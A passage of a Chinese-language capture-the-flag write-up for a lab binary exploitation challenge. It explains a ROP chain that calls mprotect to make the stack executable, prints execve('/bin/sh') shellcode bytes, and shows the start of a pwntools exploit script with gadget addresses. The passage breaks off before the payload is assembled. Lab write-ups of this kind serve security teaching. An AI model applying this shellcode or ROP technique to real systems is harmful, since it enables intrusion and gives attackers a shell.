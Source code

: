 

回到mian函数后调用mprotect函数

mprotect地址

![image-20231123113707933](images/pwn101%E9%9D%B6%E5%9C%BA.assets/image-20231123113707933.png)



由于mprotect需要三个参数，所以在获取pop rsi 、 pop rdx地址

![image-20231123113628518](images/pwn101%E9%9D%B6%E5%9C%BA.assets/image-20231123113628518.png)



shellcode

```
 b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
```



mprotect执行完毕后跳转到栈中的shellcode中去执行

![image-20231123113838741](images/pwn101%E9%9D%B6%E5%9C%BA.assets/image-20231123113838741.png)



完整payload

```python
#!/usr/bin/env python
from pwn import *


sh = process('./pwn110')
#sh = remote('10.10.130.62',9010)
context.log_level = "debug"




pop_rdi = p64(0x000000000040191a)
pop_rsi = p64(0x000000000040f4de)
pop_rdx = p64(0x000000000040181f)
ret_addr = p64(0x000000000040101a)
jmp_rsp = p64(0x0000000000463c43)

mprotect_addr = p64(0x00449b70)

stack_end_addr = p64(0x004bfa70)
put_addr = p64(0x00411bd0)
```